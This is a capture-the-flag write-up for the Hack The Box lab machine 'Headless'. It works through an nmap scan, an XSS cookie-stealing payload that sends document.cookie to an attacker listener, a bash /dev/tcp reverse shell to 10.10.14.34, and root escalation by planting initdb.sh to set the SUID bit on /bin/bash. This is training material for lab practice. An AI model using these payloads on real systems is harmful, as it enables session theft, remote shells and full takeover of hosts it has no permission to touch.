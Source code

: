 ## Phase 1: Reconnaissance ### Nmap Scan Reconnaissance is the initial step where we gather information about the target system. ```shell nmap -sCV 10.10.11.8

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-26 02:27 EDT
Nmap scan report for headless.htb (10.10.11.8)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 26 Mar 2024 06:25:09 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Explanation:

- Port 22 is open, indicating an SSH service running OpenSSH 9.2p1.
- Port 5000 is open, running a web service using Werkzeug/2.2.2 on Python/3.11.2.
- The is_admin cookie clue hints at potential privilege escalation paths.

## Phase 2: XSS Attack

### Why Consider XSS?

XSS vulnerabilities are common in web applications and occur when untrusted user input is processed and reflected back without proper sanitization. Here, the application mentions that the report is sent to administrators for investigation, suggesting that injected scripts may execute on the admin's browser.

### Key Indicators:

- Admin Cookie: Presence of is_admin cookie indicates privilege differentiation.
- Report Sent to Admin: Implies the potential for stored XSS.

### Exploiting XSS

**Payload:**
<img src=x onerror=fetch('http://your_ip:your_port/'+document.cookie);>


**Steps:**

1. **Inject Payload:** Inject the payload into the input form.
2. **Capture Cookie:** Set up a listener on your attacking machine to capture the admin's cookie
nc -lvnp your_port
3. **Replace Cookie:** Use the captured cookie to gain admin access.

### OWASP Zap for XSS Detection

OWASP Zap can automate the detection of XSS vulnerabilities.

**Automated Scan:**

- Identifies reflections of input fields.
- Highlights the lack of HTTPOnly flag on cookies, making them susceptible to theft via JavaScript.

**Fuzzing User-Agent:**

- Injects common XSS payloads to identify reflections and potential vulnerabilities.

### Why This XSS Works:

HTB simulates an admin reviewing reports by using a script that processes the reports. This is handled by app.py, which writes the reports to disk.

**Payload:**

shell

Copy code

`/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.34/4444 0>&1'`

**Curl Request:**

shell

Copy code

`curl --path-as-is -i -s -k -X POST \\     -H 'Host: 10.10.11.8:5000' -H 'Content-Length: 118' -H 'Cache-Control: max-age=0' -H 'Upgrade-Insecure-Requests: 1' -H 'Origin: http://10.10.11.8:5000' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H 'Referer: http...`

### Explanation:

The payload injects a command that opens a reverse shell to your attacking machine. The curl command sends this payload to the server.

## Phase 4: Privilege Escalation

### Enumeration:

Check sudo privileges:

shell

Copy code

`sudo -l`

**Output:**

ruby

Copy code

`Matching Defaults entries for dvir on headless:     env_reset, mail_badpass,     secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin,     use_pty  User dvir may run the following commands on headless:     (ALL) NOPASSWD: /usr/bin/syscheck`

### Explanation:

The user dvir can run /usr/bin/syscheck with root privileges without a password.

### Reviewing the Script:

Contents of /usr/bin/syscheck:

shell

Copy code

`strings /usr/bin/syscheck`

**Key Part of the Script:**

shell

Copy code

`#!/bin/bash if [ "$EUID" -ne 0 ]; then   exit 1 fi last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1) formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M") /usr/bin/echo "Last Kernel Modification Time: $formatted_time" disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}') /usr/bin/echo "Available disk space: $disk_space" load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}') /usr/bin/echo "System load average: $load_average" if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then   /usr/bin/echo "Database service is not running. Starting it..."   ./initdb.sh 2>/dev/null else   /usr/bin/echo "Database service is running." fi exit 0`

### Explanation:

The script runs with root privileges and executes ./initdb.sh if it is not running.

### Exploiting the Script:

Create a malicious initdb.sh script to escalate privileges.

**Payload:**

shell

Copy code

`echo "chmod u+s /bin/bash" > /home/dvir/initdb.sh chmod +x /home/dvir/initdb.sh sudo /usr/bin/syscheck`

### Explanation:

The payload sets the SUID bit on /bin/bash, which allows any user to run bash with root privileges.

### Get a Root Shell:

/bin/bash -p

### Explanation:

Running bash -p after setting the SUID bit gives a root shell.

### Understanding bash -p:

The bash -p command runs the Bash shell in "privileged mode." This mode is particularly useful when the SUID bit is set on the Bash executable.

### SUID Bit:

SUID (Set User ID): This is a special type of file permission that allows a user to run an executable with the permissions of the executable's owner. When applied to the Bash shell, it allows any user running the shell to have the permissions of the file owner, which is typically root.

### Privileged Mode:

When you set the SUID bit on /bin/bash, running bash -p ensures that the shell retains its elevated privileges (root) even if it is executed by a non-privileged user.

### Why Use bash -p After SUID:

- Elevated Privileges: To exploit the elevated privileges granted by the SUID bit.
- Root Shell: Ensures the shell operates with root privileges, allowing you to execute commands as root without needing to prefix them with sudo.

